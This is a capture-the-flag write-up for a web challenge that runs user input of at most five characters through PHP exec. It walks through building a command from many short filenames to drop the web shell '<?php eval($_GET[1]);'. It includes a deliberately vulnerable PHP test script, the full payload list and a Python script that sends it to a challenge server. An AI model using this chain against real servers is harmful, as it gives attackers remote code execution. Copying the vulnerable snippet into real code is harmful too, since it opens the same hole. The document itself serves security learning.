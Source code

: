 # Web: Less than 5 

![image](https://user-images.githubusercontent.com/74207547/164990551-4ab3d77a-363c-400e-932f-6063131ebac4.png)

## Website:

![image](https://user-images.githubusercontent.com/74207547/164990589-4978a78f-0952-46e6-ae9f-36a25ec5398a.png)

There is a blank white page. Let's test parameters from challenge description - `cmd` and `reset`

![image](https://user-images.githubusercontent.com/74207547/164990694-7b04edc3-8752-449b-b88e-620366e2f8f6.png)

![image](https://user-images.githubusercontent.com/74207547/164990699-6d901926-4fae-4b53-9b27-8c2214586ff2.png)

We don't get any output from that. Maybe we should search for some **edge cases** to see how app behaves.

![image](https://user-images.githubusercontent.com/74207547/164991052-8d48fafe-25ec-477c-b6d3-91b84153ce6e.png)

**Null byte** works as always in php scritps. Now we can check how length control is being handled.

![image](https://user-images.githubusercontent.com/74207547/164991027-ddf10e53-b2a7-4f43-8636-5ff3683febb1.png)
![image](https://user-images.githubusercontent.com/74207547/164990967-bedaee60-a230-4ff9-a7ac-8adf3d604add.png)

Input build of more than 5 characters is **not going throught exec function.**

## Fight with input length:

At first I thought the challenge was about simple command injection.
I tried using `*`, `>` to read flag or index.php but didn't get anything.
The length of 5 was too small to get any progress there.
The only thing that I acomplished was creating files with short names and reading them.
This led me to **executing ls and reading the output.**
![image](https://user-images.githubusercontent.com/74207547/164991334-687b6b23-0897-4d13-8acf-3a83715c427d.png)
![image](https://user-images.githubusercontent.com/74207547/164991343-4fd447ab-f0e9-4e1d-bfce-008700baad4b.png)

That's something. At that moment I knew the challenge is about creating payload from multiple files.
It is also said in challenge description that files are being removed every 2 mins so keep that in mind.

## Research:

After feeling a bit helpless I started to google for **short php** payloads. I stumbled upon few interesting articles.
* [blog.spacepatroldelta.com](https://blog.spacepatroldelta.com/a?ID=01800-96c1d853-a6ab-4a27-b2c5-157e586418d3)
* [blog.csdn.net/](https://blog.csdn.net/nzjdsds/article/details/102940762)


In above articles they are basically spliting the command `echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php` in multiple files.
Then they are using `ls -t>0` to sort files by the time they were created and put all of them into one file - `0`.
When that succeed they execute `0` with `sh 0` and the outcome is `1.php` file with php content - **`<?php eval($_GET[1]);`** which enables executing any command we want.
Backslashes `\\` keep all files as one payload and `${IFS}` is being used to replace one of the spaces.

![image](https://user-images.githubusercontent.com/74207547/164992329-77f4dacf-4211-4e8f-bc2d-1182fae6c29b.png)

The hardest part is executing `ls -t>0`. This line have much more than 5 chars so how they got around it?

![image](https://user-images.githubusercontent.com/74207547/164992694-919a57d3-18a9-4016-ae52-3b5fa4b8ce69.png)

**That's pure magic. How does it even work?**

First we need to understand few commands:
* dir - same as ls
* rev - reverses the input `echo 1234|rev` -> `4321`

So at first they are building a reversed payload. With `*>v` they are calling dir (first file in the folder in alphabetical order) which lists other files and then saves it to `v` file.
Next they uses rev to reverse the payload and move it to another file `0`
Well that works. Pretty crazy way to get around it.

**I found everything that is needed right? Copy, paste, run, didn't work. Unfortunately, it wasn't that simple.**

## Local setup

I created a simple php script that simulates the behavior of the challenge.
```php
<?php 
  if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5){exec($_GET['cmd']);}
?>
```

After a while I knew what didn't work. When building up a `ls -t` from files there is one diffrence between articles and actual challenge. We also have `index.php` in same directory which breaks the whole payload.

![image](https://user-images.githubusercontent.com/74207547/164993458-fca51e60-afec-4289-ac5a-d8cc49fc85ff.png)

Index.php got between the files and whole thing was messed up. I had to find reversed payload that will go after `index.php`

```
>dir
>n\>
>pt-
>l\|
>sl
*>v
>rev
*v>0
```

**Found it!** Below how it works.

![image](https://user-images.githubusercontent.com/74207547/164993612-daf15c12-49a7-4148-a232-0d4e3fd799bc.png)

# Solution:

Simple python script which creates all the files needed and calls `1.php` endpoint to check if it worked.

```python
import requests 

url = "http://142.93.209.130:8003/?cmd={0}"

with open("payload.txt","r") as f:
        for i in f:
                print("[*]" + url.format(i.strip()))
                requests.get(url.format(i.strip())) 

test = requests.get("http://142.93.209.130:8002/1.php")
if test.status_code == requests.codes.ok:
        print("Success!!!")
```

```
payload.txt
>dir
>n\>
>pt-
>l\|
>sl
*>v
>rev
*v>0
>php
>1.\\
>\>\\
>d\\
>\-\\
>\ \\
>4\\
>e6\\
>s\\
>ba\\
>\|\\
>4K\\
>Pz\\
>7\\
>k\\
>XS\\
>x\\
>Fs\\
>V\\
>dF\\
>0\\
>kX\\
>g\\
>bC\\
>h\\
>XZ\\
>Z\\
>Ag\\
>H\\
>wa\\
>9\\
>PD\\
>\}\\
>FS\\
>I\\
>\{\\
>$\\
>ho\\
>ec\\
sh 0
sh n
```
![image](https://user-images.githubusercontent.com/74207547/164993848-6d436385-4934-4bb7-8873-755b58b3939b.png)
![image](https://user-images.githubusercontent.com/74207547/164993863-0feef127-dbce-4cab-ae6f-966020a5c176.png)

## FLAG: ictf{5ch4r5_4re_3n0ugh_bd903}
